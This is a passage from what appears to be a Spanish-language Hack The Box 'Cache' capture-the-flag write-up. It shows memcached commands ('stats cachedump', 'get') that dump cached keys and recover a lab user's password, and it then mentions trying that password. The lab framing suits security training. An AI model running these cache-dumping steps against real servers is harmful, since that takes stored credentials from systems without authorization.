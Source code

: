 ```bash
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 8
...
END
# Vemos que solo tenemos un solo "slab (el numero al lado de STAT)" que tiene varios items, ahora podemos dumpear data con ese número
...
> stats cachedump 1 0 # El 1 es el ID del "slab" y con el 0 le indicamos que muestre todos los items
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
> get user # Con esto simplemente le decimos que nos muestre que tiene ese item
VALUE user 0 5
luffy
END
> get passwd
VALUE passwd 0 9
0n3_p1ec3
END
> get file 
VALUE file 0 7
nothing
END
> get link
VALUE link 0 21
https://hackthebox.eu
END
> get account
VALUE account 0 9
afhj556uo
END
```

Obtuvimos una contraseña guardada en memoria del usuario **luffy**, validemos si funciona

![revshsuluffy](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cache/revshsuluffy.png)

